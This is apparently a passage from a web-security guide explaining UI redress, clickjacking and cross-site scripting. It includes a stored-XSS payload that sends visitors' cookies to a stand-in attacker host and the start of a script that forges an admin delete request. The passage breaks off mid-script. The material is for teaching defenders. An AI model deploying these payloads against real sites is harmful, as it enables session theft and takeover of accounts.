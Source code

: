A UI Redress attack is any attempt by an attacker to alter the User Interface of a web application. Changing the UI that a user interacts with can allow an attacker to inject new links, new HTML sections, to resize/hide/overlay interface elements, and so on. When such attacks are intended to trick a user into clicking on an injected button or link it is usually referred to as Clickjacking.



While much of this chapter applies to UI Redress attacks performed via XSS, there are other methods of performing a UI Redress attack which use frames instead.

A Cross-Site Scripting Example

Let’s imagine that an attacker has stumbled across a custom built forum which allows users to display a small signature beneath their comments. Investigating this further, the attacker sets up an account, spams all topics in reach.

<script>document.write('<iframe src="http://evilattacker.com?cookie=' + document.cookie.escape() + '" height=0 width=0 />');</script>



By some miracle, the forum software includes this signature as-is in all those spammed topics for all the forum users to load into their browsers. The results should be obvious from the Javascript code. The attacker is injecting an iframe into the page which will appear as a teeny tiny dot (zero sized) at the very bottom of the page attracting no notice from anyone. The browser will send the request for the iframe content which passes each user’s cookie value as a GET parameter to the attacker’s URI where they can be collated and used in further attacks. While typical users aren’t that much of a target for an attacker, a well designed trolling topic will no doubt attract a moderator or administrator whose cookie may be very valuable in gaining access to the forums moderation functions.



This is a simple example but feel free to extend it. Perhaps the attacker would like to know the username associated with this cookie? Easy! Add more Javascript to query the DOM and grab it from the current web page to include in a “username=” GET parameter to the attacker’s URL. Perhaps they also need information about your browser to handle a Fingerprint defense of the session too? Just include the value from “navigator.userAgent”.



This simple attack has a lot of repercussions including potentially gaining control over the forum as an administrator. It’s for this reason that underestimating the potential of XSS attack is ill advised.



Of course, being a simple example, there is one flaw with the attacker’s approach. Similar to examples using Javascript’s alert() function I’ve presented something which has an obvious defense. All cookies containing sensitive data should be tagged with the HttpOnly flag which prevents Javascript from accessing the cookie data. The principle you should remember, however, is that if the attacker can inject Javascript, they can probably inject all conceivable Javascript. If they can’t access the cookie and mount an attack using it directly, they will do what all good programmers would do: write an efficient automated attack.

<script>

  var params = 'type=topic&action=delete&id=347';

  var http = new XMLHttpRequest();

  http.open('POST', 'forum.com/admin_control.php', true);
